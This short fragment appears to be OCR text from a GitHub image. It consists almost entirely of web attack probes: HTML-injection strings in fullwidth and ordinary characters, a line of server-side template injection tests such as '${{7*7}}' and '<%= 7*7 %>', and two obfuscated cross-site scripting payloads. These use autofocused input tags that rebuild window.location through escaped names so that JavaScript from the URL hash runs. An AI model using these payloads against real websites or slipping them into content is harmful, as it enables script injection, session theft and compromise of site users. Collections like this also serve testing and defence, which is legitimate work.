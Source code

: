 ＂＇﹥﹤h1﹥html﹤／h1﹥
＂＇＞＜h1＞html＜／h1＞

"'><h1>html</h1>${{7*7}}${7*7}%{7+7}[[7*7]]#{7*7}@(1+2)<%= 7*7 %>


```
<input onfocus="w\u%26lcub;69}ndow['\l\o\cat\i\on']='javascript%26colon' %2b w\u%26lcub;69}ndow['\l\o\cat\i\on']['\ha\s\h']['\s\l\i\c\e']`1`" autofocus />



<input onfocus="w\u{69}ndow['\l\o\cat\i\on']='javascript%26colon' %2b w\u{69}ndow['\l\o\cat\i\on']['\ha\s\h']['\s\l\i\c\e']`1`" autofocus />
```
